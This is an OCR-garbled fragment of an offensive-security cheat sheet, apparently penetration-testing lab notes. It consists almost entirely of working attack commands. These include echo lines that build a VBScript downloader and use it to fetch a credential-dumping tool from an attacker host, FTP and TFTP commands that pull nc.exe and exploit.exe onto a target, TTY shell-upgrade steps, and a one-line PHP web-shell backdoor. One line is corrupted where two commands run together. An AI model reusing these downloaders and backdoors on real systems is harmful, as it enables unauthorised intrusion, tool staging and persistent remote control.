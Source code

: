 > echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts &gt;&gt; wget.vbs  
> echo Err.Clear &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set http = CreateObject\("WinHttp.WinHttpRequest.5.1"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("WinHttp.WinHttpRequest"\) &gt;&gt; wget.vbs  
> echcscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upex.exe If http Is Nothing Then Set http = CreateObject\("MSXML2.ServerXMLHTTP"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("Microsoft.XMLHTTP"\) &gt;&gt; wget.vbs  
> echo http.Open "GET", strURL, False &gt;&gt; wget.vbs  
> echo http.Send &gt;&gt; wget.vbs  
> echo varByteArray = http.ResponseBody &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set fs = CreateObject\("Scripting.FileSystemObject"\) &gt;&gt; wget.vbs  
> echo Set ts = fs.CreateTextFile\(StrFile, True\) &gt;&gt; wget.vbs  
> echo strData = "" &gt;&gt; wget.vbs  
> echo strBuffer = "" &gt;&gt; wget.vbs  
> echo For lngCounter = 0 to UBound\(varByteArray\) &gt;&gt; wget.vbs  
> echo ts.Write Chr\(255 And Ascb\(Midb\(varByteArray,lngCounter + 1, 1\)\)\) &gt;&gt; wget.vbs  
> echo Next &gt;&gt; wget.vbs  
> echo ts.Close &gt;&gt; wget.vbs  
> → cscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upx.exe  
> ▪ FTP Non interactive mode  
> → ftp -A 10.11.0.106  
> → binary  
> → GET nc.exe  
> → bye  
> ▪ TFTP  
> → tftp -i 10.11.0.106 GET exploit.exe

## SHELLS

Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user \(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell \)

Interactive shell:

> $python -c 'import pty; pty.spawn\("/bin/bash"\)' $ echo os.system\('/bin/bash'\)

Adjust Interactive shell:

> $ Ctrl-Z  
> $ echo &gt; $TERM //find term $ stty raw -echo //disable shell echo  
> $ fg  
> $ reset  
> $ export SHELL=bash  
> $ export TERM=xterm

Php backdoor:

> $ &lt;?php echo shell\_exec\( &gt; $\_GET\['cmd'\]\);?&gt;
